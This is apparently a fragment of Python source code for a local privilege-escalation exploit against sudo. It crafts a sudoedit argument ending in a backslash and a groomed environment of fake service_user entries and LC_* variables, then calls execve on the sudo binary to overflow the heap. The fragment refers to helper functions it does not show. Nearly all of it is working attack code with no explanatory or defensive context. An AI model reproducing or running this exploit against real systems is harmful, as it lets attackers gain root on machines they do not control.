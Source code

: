#Note: actions[5] can be any value. library and known MUST be NULL
FAKE_USER_SERVICE_PART = [ b"\\" ] * 0x18 + [ b"X/X1234\\" ]

TARGET_OFFSET_START = 0x780
FAKE_USER_SERVICE = FAKE_USER_SERVICE_PART*30
FAKE_USER_SERVICE[-1] = FAKE_USER_SERVICE[-1][:-1]  # remove last '\\'. stop overwritten

CHUNK_CMND_SIZE = 0xf0

#Allow custom extra_chunk_cnt incase unexpected allocation
#Note: this step should be no need when CHUNK_CMND_SIZE is 0xf0
extra_chunk_cnt = get_extra_chunk_count(CHUNK_CMND_SIZE) if len(sys.argv) < 2 else int(sys.argv[1])

argv = [ b"sudoedit", b"-A", b"-s", b"A"*(CHUNK_CMND_SIZE-0x10)+b"\\", None ]
env = [ b"Z"*(TARGET_OFFSET_START + 0xf - 8 - 1) + b"\\" ] + FAKE_USER_SERVICE
#first 2 chunks are fixed. chunk40 (target service_user) is overwritten from overflown cmnd (in get_cmnd)
env.extend([ lc_env(0, 0x40)+b";A=", lc_env(1, CHUNK_CMND_SIZE) ])

#add free chunks that created before target service_user
for i in range(2, service_user_idx+2):
	# skip LC_ALL (6)
	env.append(lc_env(i if i < 6 else i+1, 0x40))
if service_user_idx == 0:
	env.append(lc_env(2, 0x20)) # for filling hole

for i in range(11, 11-extra_chunk_cnt, -1):
	env.append(lc_env(i, CHUNK_CMND_SIZE))

env.append(lc_env(12, 0x90)) # for filling holes from freed file buffer
env.append(b"TZ=:")  # shortcut tzset function
#don't put "SUDO_ASKPASS" environment. sudo will fail without logging if no segfault
env.append(None)

execve(SUDO_PATH, argv, env)
